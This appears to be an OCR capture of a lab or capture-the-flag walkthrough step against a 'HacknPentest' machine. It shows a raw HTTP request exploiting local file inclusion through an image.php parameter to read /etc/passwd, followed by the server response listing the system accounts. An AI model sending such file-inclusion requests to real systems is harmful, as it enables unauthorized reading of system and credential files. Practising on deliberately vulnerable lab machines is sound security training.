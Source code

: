 Content-Type: text/html; charset=UTF-8

<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br></html>

GET /image.php?secrettier360=/etc/passwd HTTP/1.1
Host: 192.168.1.237
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Tue, 25 May 2021 11:37:27 GMT
Server: Apache/2.4.18 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 2616
Connection: close
Content-Type: text/html; charset=UTF-8

<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false